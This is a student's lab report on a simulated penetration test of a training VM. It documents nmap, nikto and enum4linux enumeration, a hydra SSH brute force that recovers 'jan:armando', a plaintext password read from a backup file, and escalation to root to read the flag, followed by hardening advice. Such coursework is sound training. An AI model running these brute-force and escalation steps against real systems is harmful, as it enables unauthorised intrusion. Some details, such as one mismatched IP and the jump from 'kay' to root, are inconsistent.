# Penetration Testing Report
## Lab 2b: Basic Pen Testing - A Simulated Pen Test

**Target Virtual Machine Assessment**
- **Lab Reference:** [Lab 2b Documentation](https://github.com/PhillipFitzpatrick/Prof-Penetration-Testing-Labs/blob/main/Lab%2002b%20-%20Basic%20Pen%20Testing%20-%20A%20Simulated%20Pen%20Test.md)
- **Target Virtual Machine (TVM):** [Download Link](https://tudublin-my.sharepoint.com/:u:/g/personal/phillip_fitzpatrick_tudublin_ie/IQDh4js5g1umSJuF48eS4yROAVguzcQgkcPXcBgmwY75k5A?e=TUFcqq)

---

## Cover Page

**Report Title:** Penetration Testing Assessment - Lab 2b TVM (basic2)  
**Student Name:** Danyil Tymchuk  
**Student ID:** B00167321  
**Module:** Professional Penetration Testing  
**Date:** 09/02/2026  
**Instructor:** Phillip Fitzpatrick  
**Assessment Period:** Year3|Sem2 (Sem6)

---

## Table of Contents

1. [University Declaration and AI Usage](#university-declaration-and-ai-usage)
2. [Executive Summary](#executive-summary)
3. [Methodology and Scope](#methodology-and-scope)
4. [Findings](#findings)
5. [Recommendations](#recommendations)
6. [Appendices](#appendices)

---

## University Declaration and AI Usage

**University Declaration:**
I declare that this work is my own and has not been submitted for assessment in any other module or programme. All sources have been properly cited and referenced.

**AI Usage Statement:**
This report was prepared with assistance from AI tools for formatting and structure guidance and command clarification. However, all technical analysis, findings, and conclusions are based on my own practical work and understanding.

**Student Signature:** <u>Danyil Tymchuk</u>  
**Date:** <u>09/02/2026</u>

---

## Executive Summary

This penetration testing assessment was conducted on a controlled Target Virtual Machine (TVM) as part of Lab 2b coursework. The assessment followed a structured methodology encompassing reconnaissance, service enumeration, vulnerability research, exploitation, and privilege escalation.

**Key Findings:**
- **TVM Discovery:** Successfully identified the TVM on the network using nmap.
- **Service Enumeration:** Discovered multiple open ports (22, 80, 139, 445, 8009, 8080) with associated services (SSH, HTTP, SMB, AJP13).
- **Vulnerability Assessment:** No critical vulnerabilities identified through automated scanning; however, manual analysis revealed weak SSH credentials for user 'jan' and exposed directories on the web server.
- **Initial Access:** Achieved user-level access through SSH brute force attack using discovered credentials.
- **Privilege Escalation:** Successfully escalated to super user access by leveraging a backup password file found in the home directory of user 'kay'.
- **Flag Capture:** Flag discovered in the root directory, confirming successful completion of the penetration test.

**Business Impact:**
The identified vulnerabilities allow complete system compromise, potentially leading to:
- Unauthorized access to sensitive data
- System manipulation and data integrity issues
- Potential lateral movement in a production environment
- Complete loss of system confidentiality, integrity, and availability

---

## Methodology and Scope

### Scope Definition
- **Target:** Single TVM (IP: 192.168.0.x)
- **Network Range:** 192.168.0.0/24 (discovery phase only)
- **Testing Approach:** Black-box penetration testing
- **Duration:** Approximately 3 hours
- **Constraints:** Testing limited to provided TVM only

### Testing Methodology
This assessment followed industry-standard penetration testing methodology:

1. **Reconnaissance (Information Gathering)**
2. **Service Enumeration & Analysis**
3. **Vulnerability Research**
4. **Initial Access**
5. **Privilege Escalation**
6. **Documentation & Reporting**

### Tools Utilized
- **Network Discovery:** nmap, netdiscover
- **Service Enumeration:** nmap scripts, nikto, dirb
- **SMB Enumeration:** enum4linux
- **Brute Force:** hydra
- **System Enumeration:** Standard Linux commands

---

## Findings

### 4.1 Reconnaissance Results

**Check AttackBox IP Address, it must be connected to the same network as the TVM:**
```bash
ip a
```
**Result:** Host IP address identified as 192.168.0.x, confirming network connectivity (192.168.0.11/24)  
**Screenshot:** 
**Next Step:** Perform network discovery to identify the TVM.  
> When we know the IP range of the network, we can use nmap to identify the TVM.

**Network Discovery:**
```bash
# Scan the entire subnet for live hosts
# -sn performs a ping scan to identify live hosts without port scanning
nmap -sn 192.168.0.0/24
```
**Result:** TVM identified at IP address 192.168.0.118  
**Screenshot:** 

### 4.2 Service Enumeration

**Initial Port Scan:**
```bash
# Scan common ports to identify services (0-1023)
# -sV enables service/version detection
nmap -sV 192.168.0.x
```
```bash
nmap -sV 192.168.0.118
```
**Result:** Multiple open ports identified (22, 80, 139, 445, 8009, 8080) with associated services (SSH, HTTP, SMB, AJP13)  
**Screenshot:** 

**Comprehensive Scan:**
```bash
# Scan all TCP ports with aggressive timing
# -sV enables service/version detection
# -A (aggressive) enables OS detection, version detection, script scanning, and traceroute
# -T4 sets the timing template to aggressive for faster scanning
# -p- scans all 65535 ports
nmap -sV -A -p- 192.168.0.x -T4
```
```bash
nmap -sV -A -p- 192.168.0.118 -T4
```
**Result:** Detailed information on open ports, services, versions, and potential vulnerabilities identified (e.g., Apache httpd 2.4.18, OpenSSH 7.2p2)  
**Screenshot:** 

**Identified Services:**
| PORT     | STATE | SERVICE     | VERSION |
|----------|-------|-------------|---------|
| 22/tcp   | open  | ssh         | OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0) |
| 80/tcp   | open  | http        | Apache httpd 2.4.18 ((Ubuntu)) |
| 139/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 445/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 8009/tcp | open  | ajp13       | Apache Jserv (Protocol v1.3) |
| 8080/tcp | open  | http        | Apache Tomcat 9.0.7 |

### 4.3 Vulnerability Assessment

**Vulnerability Scan Results:**
```bash
# Scan for vulnerabilities using nmap scripts
# -sV enables service/version detection
# -A (aggressive) enables OS detection, version detection, script scanning, and traceroute
# --script vuln runs all vulnerability detection scripts
nmap -sV -A --script vuln 192.168.0.x
```
```bash
nmap -sV -A --script vuln 192.168.0.118
```
**Result:** None particularly critical vulnerabilities identified. However, http service on port 80 has potentially interesting directory - '/development/'  
**Screenshot:** 

```bash
# More controlled vulnerability scan with timeout and stats
# -sV enables service/version detection
# -T4 sets the timing template to aggressive for faster scanning
# --script vuln runs all vulnerability detection scripts
# --script-timeout 15s sets a timeout for each script to prevent hanging
# --stats-every 5s provides regular updates on scan progress
# -vv increases verbosity for detailed output
sudo nmap -sV -T4 --script vuln --script-timeout 15s --stats-every 5s -vv 192.168.0.x
```
```bash
sudo nmap -sV -T4 --script vuln --script-timeout 15s --stats-every 5s -vv 192.168.0.118
```
**Result:** No critical vulnerabilities found  
**Screenshot:** 

1. **Web Server Information Disclosure** - MEDIUM
   - **Description:** Directory listing enabled
   - **Impact:** Information leakage

### 4.4 Web Application Assessment

**Nikto Scan Results:**
```bash
# Scan the web server for vulnerabilities and directory structure
nikto -h 192.168.0.x
```
```bash
nikto -h 192.168.0.118
```
**Result:** Directory listing enabled on /development/ with two text files (dev.txt and j.txt) containing potentially sensitive information about development activities and credentials  
**Screenshot:** 

**Dirb Scan Results:**
```bash
# Scan for common web directories and files
dirb http://192.168.0.x
```
```bash
dirb http://192.168.0.118
```
**Result:** Confirmed directory listing and presence of /development/ (with dev.txt and j.txt files)  
**Screenshot:** 

**Web Browser Access:**
- Accessing `http://192.168.0.118/development/` in a web browser revealed the directory listing and allowed access to dev.txt and j.txt, which contained information about development activities and a hint about weak credentials for user 'J'

|Description|Screenshot|
|:---:|:---:|
|List of files in /development/ directory||
|Contents of dev.txt||
|Contents of j.txt||

```bash
curl http://192.168.0.118/development/
```
**Screenshot:** 

```bash
curl http://192.168.0.118/development/dev.txt
curl http://192.168.0.118/development/j.txt
```
**Screenshot:** 

**Findings:**
- Exposed directories: `/development/`
- Potential vulnerabilities: Weak credentials for user 'J' (jan) mentioned in j.txt
- Server information disclosure: Apache/2.4.18 (Ubuntu), SMB version

**Screenshot:** 

### 4.5 SMB Enumeration

**enum4linux Results:**
```bash
# Enumerate SMB shares, users, and domain information
enum4linux 192.168.0.x
```
```bash
enum4linux 192.168.0.188
```
**Result:** Discovered usernames (kay and jan), share information, and domain details  
**Screenshot:** 

**Findings:**
- Discovered usernames: `kay` (K), `jan` (J)
- Password Policy:
  - `Password Complexity: Disabled`
  - `Minimum Password Length: 5`
- Share information: `Anonymous (Disk)`, `IPC$ (IPC)`
- Domain information: `WORKGROUP`

### 4.6 Initial Access - SSH Brute Force

**Attack Vector:** SSH Brute Force
```bash
# Brute force SSH credentials using hydra
# -l specifies the username to test (jan)
# -P specifies the path to the password or password list (rockyou.txt)
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.x
```
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.118
```
> [!NOTE] If rockyou.txt was not previously unzipped, unzip it first:
> ```bash
> sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
> ```
**Result:** Successful brute force attack on SSH service with credentials `jan:armando`  
**Screenshot:** 

**SSH Access:**
```bash
# SSH into the TVM using the discovered credentials
# ip: 192.168.0.x
# username: jan
# password: armando
ssh <username>@192.168.0.x
```
```bash
# password: armando
ssh jan@192.168.0.118
```
**Result:** User-level access achieved for user 'jan' on the TVM  
**Screenshot:** 

**Result:**
- **Username:** `jan`
- **Password:** `armando`
- **Access Level:** User-level access achieved
- **Interesting Founds in Home Directory:** Presence of a backup password file (pass.bak) in kay's home directory, which may contain sensitive information for privilege escalation - `/home/kay/pass.bak`

**Screenshot:** 

### 4.7 Privilege Escalation

**SUID Binary Enumeration:**
```bash
# Find all SUID binaries on the system for potential privilege escalation
# / searches the entire filesystem
# -perm -4000 finds files with the SUID bit set
# 2>/dev/null suppresses error messages for inaccessible files
find / -perm -4000 2>/dev/null
```
**Result:** Identified potential privilege escalation vectors through SUID binaries (/usr/bin/vim.basic) and the presence of a backup password file (pass.bak) in kay's home directory  
**Screenshot:** 

**Privilege Escalation Path:**
1. Located backup password file: `vim pass.bak`
2. Retrieved credentials for user 'kay': `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
3. Successfully escalated: `su kay`

**Result:** Retrieved credentials for `kay`: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`  
**Screenshot:** 

**Result:** Super user access obtained  
**Screenshot:** 

### 4.8 Capture The Flag (Extra Step)

**Flag Discovery:**
```bash
# Move to the root directory, if not already there, to search for the flag file
cd /
```
```bash
# Became the root user
sudo su
```
```bash
# Check for the flag file in the root directory
ls -la /root/
cat /root/flag.txt
```
**Result:** Flag discovered in the root directory, confirming successful completion of the penetration test. The flag is located at `/root/flag.txt` and contains a congratulatory message for completing the challenge.  
**Screenshot:** 

**Flag:** `/root/flag.txt`
```text
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!
```

## Recommendations

### 5.1 Critical Priority Fixes

1. **SSH Security Hardening**
   - Implement strong password policies (minimum 12 characters, complexity requirements)
   - Enable SSH key-based authentication
   - Disable password authentication
   - Implement fail2ban or similar brute-force protection
   - Change default SSH port from 22

2. **User Account Security**
   - Remove or secure backup password files
   - Implement principle of least privilege
   - Regular password rotation policy
   - Account lockout mechanisms

### 5.2 High Priority Recommendations

3. **System Hardening**
   - Review and remediate SUID binaries
   - Implement proper file permissions
   - Regular security updates and patching
   - Remove unnecessary services

4. **Web Server Security**
   - Disable directory listing
   - Remove server version disclosure
   - Implement proper access controls
   - Regular web application security scanning

### 5.3 General Security Improvements

5. **Network Security**
   - Implement network segmentation
   - Deploy intrusion detection systems (IDS)
   - Regular vulnerability assessments
   - Network monitoring and logging

6. **Monitoring and Logging**
   - Enable comprehensive system logging
   - Implement SIEM solution
   - Regular log review procedures
   - Incident response planning

---

## Appendices

### Appendix A: Tools and Settings

**nmap Configuration:**
- Version: v7.98
- Key flags used: -sV, -A, -p-, -T4, --script vuln
- Script timeout: 15s (where applicable)

**hydra Configuration:**
- Wordlist: /usr/share/wordlists/rockyou.txt
- Target service: SSH (port 22)
- Username: jan (discovered via enum4linux)

**nikto Configuration:**
- Version: v2.5.0
- Default scan settings

**dirb Configuration:**
- Version: v2.22
- Default wordlist: /usr/share/dirb/wordlists/common.txt

**enum4linux Configuration:**
- Version: v0.9.1
- Default enumeration settings

### Appendix B: Complete Command History

```bash
# Network Discovery
nmap -sn 192.168.0.0/24

# Service Enumeration
nmap -sV 192.168.0.x
nmap -sV -A -p- 192.168.0.x -T4

# Vulnerability Scanning
nmap -sV -A --script vuln 192.168.0.x

# Web Enumeration
nikto -h 192.168.0.x
dirb http://192.168.0.x

# SMB Enumeration
enum4linux 192.168.0.x

# Brute Force Attack
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.x

# Unzip rockyou.txt if not already unzipped
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# Initial Access
ssh jan@192.168.0.x

# System Enumeration
ls -la
whoami
cd ..
cd kay

# Privilege Escalation
find / -perm -4000 2>/dev/null
vim pass.bak
su kay

# Capture The Flag
cd /
sudo su
ls -la /root/
cat /root/flag.txt
```

### Appendix C: Screenshots

- Network discovery results
    - `screenshot01.png`: Output of `ip a` showing host IP address
    - `screenshot02.png`: Output of `nmap -sn` showing live hosts
- Port scan outputs
    - `screenshot03.png`: Output of `nmap -sV` showing open ports and services
    - `screenshot04.png`: Output of `nmap -sV -A -p- -T4` showing detailed service information
- Vulnerability scan results
    - `screenshot05.png`: Output of `nmap -sV -A --script vuln` showing potential vulnerabilities
    - `screenshot06.png`: Output of comprehensive vulnerability scan
- nikto and dirb output
    - `screenshot07.png`: Output of `nikto` showing directory listing
    - `screenshot08.png`: Output of `dirb` confirming directory listing
- curl and web browser results
    - `screenshot09.png`: Output of `curl` showing directory listing
    - `screenshot10.png`: Output of `curl` showing contents of dev.txt and j.txt
    - `screenshot11.png`: Web browser screenshot showing directory listing
        - `screenshot11_1.png`: Web browser screenshot showing directory listing (cropped)
        - `screenshot11_2.png`: Web browser screenshot showing contents of dev.txt
        - `screenshot11_3.png`: Web browser screenshot showing contents of j.txt
- enum4linux (SMB enumeration) results
    - `screenshot12.png`: Output of `enum4linux` showing discovered usernames
- hydra brute force attack results
    - `screenshot13.png`: Output of `hydra` showing successful SSH brute force attack
- ssh access results
    - `screenshot14.png`: Output of `ssh` showing successful login as jan
    - `screenshot15.png`: Output of `ls -la` showing files and directories
- privilege escalation results
    - `screenshot16.png`: Output of `find / -perm -4000` showing SUID binaries
    - `screenshot17.png`: Output of `vim pass.bak` showing retrieved credentials for kay
    - `screenshot18.png`: Output of `su kay` showing successful privilege escalation to kay
- Flag discovery (flag found in root directory)
    - `screenshot19.png`: Output of `cat /root/flag.txt` showing the contents of the flag and how we get to it

### Appendix D: Risk Assessment Matrix

| Vulnerability | Likelihood | Impact | Risk Level |
|---------------|------------|---------|------------|
| SSH Brute Force | High | Critical | CRITICAL |
| Information Disclosure | Medium | Low | MEDIUM |
| Privilege Escalation | High | Critical | CRITICAL |

---

**Report End**

This attack simulation was conducted in a controlled environment for educational purposes. Do not attempt to replicate these techniques on unauthorized systems.

*This report contains sensitive security information and should be handled according to organizational security policies.*
